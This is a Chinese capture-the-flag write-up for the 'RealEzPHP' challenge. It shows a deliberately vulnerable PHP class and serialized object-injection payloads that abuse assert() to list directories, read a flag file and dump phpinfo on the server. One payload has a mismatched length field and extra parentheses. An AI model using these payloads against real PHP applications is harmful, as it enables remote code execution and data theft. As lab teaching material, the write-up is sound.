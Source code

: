 # RealEzPHP

## 知识点

1. assert(php 7.2 以下) 的命令执行
2. php反序列化

## 解题

刚拿到题目只看到一个骷髅头，查看源码找到 `time.php`

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

很显然就是反序列化的问题

当向data传入数据时，首先触发 `__construct` 构造类得到当前的时间，之后将要退出类时触发 `__destruct` 类来销毁，同时可以看到此处能够输出，说明可以从这里来入手。

```text
$b($a) 可以执行以b为函数名，a为参数的函数
```

这里先利用 `scandir` 看一下文件

```text
O:8:"HelloPhp":2:{s:1:"a";s:22:"var_dump(scandir('/'))";s:1:"b";s:6:"assert";}
```
```text
array(23) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(10) "FIag_!S_it" [4]=> string(3) "bin" [5]=> string(4) "boot" [6]=> string(3) "dev" [7]=> string(3) "etc" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(3) "sys" [20]=> string(3) "tmp" [21]=> string(3) "usr" [22]=> string(3) "var" }
```

看到 `FIag_!S_it` ，emm，先读下内容

本能地想到了 `file_get_content` 函数来获取文件内容

```text
O:8:"HelloPhp":2:{s:1:"a";s:57:"var_dump(base64_encode(file_get_contents('/FIag_!S_it')))))";s:1:"b";s:6:"assert";}
```

得到一个假flag `NPUCTF{this_is_not_a_fake_flag_but_true_flag}`

嗯，有点坑

后面想到命令执行，试过之后发现只有 `assert` 可以用，直接看看phpinfo

```text
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

在phpinfo里直接找到flag



